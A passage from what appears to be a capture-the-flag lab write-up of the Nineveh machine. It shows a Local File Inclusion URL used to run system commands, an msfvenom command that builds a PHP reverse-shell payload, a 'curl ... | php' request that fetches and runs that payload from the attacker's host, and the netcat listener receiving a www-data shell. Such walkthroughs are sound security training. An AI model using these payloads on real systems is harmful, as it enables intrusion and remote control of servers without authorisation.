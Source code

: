Then, I moved to the web page on port 80, and executed the following instruction to check if is possible executing system commands through the Local File Inclusion vulnerability.

`http://192.168.0.150/department/manage.php?notes=files/ninevehNotes../../../../../../../var/tmp/poc.php&cmd=id`

![](/assets/images/ninevehv03/screenshot-14.png)

I started the apache server on the attacking machine, and created a php payload with msfvenom.

```console
root@kali:~# systemctl start apache2
root@kali:~# msfvenom -p php/reverse_perl lhost=192.168.0.140 lport=443 -o /var/www/html/z.txt
```

I started a netcat listener on port 443, and then I executed the following instruction in the browser.

`http://192.168.0.150/department/manage.php?notes=files/ninevehNotes../../../../../../../var/tmp/poc.php&cmd=curl 192.168.0.140/z.txt | php`

I got a shell with www-data privileges.

```console
root@kali:~# nc -vlnp 443
listening on [any] 443 ...
connect to [192.168.0.140] from (UNKNOWN) [192.168.0.150] 55012
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
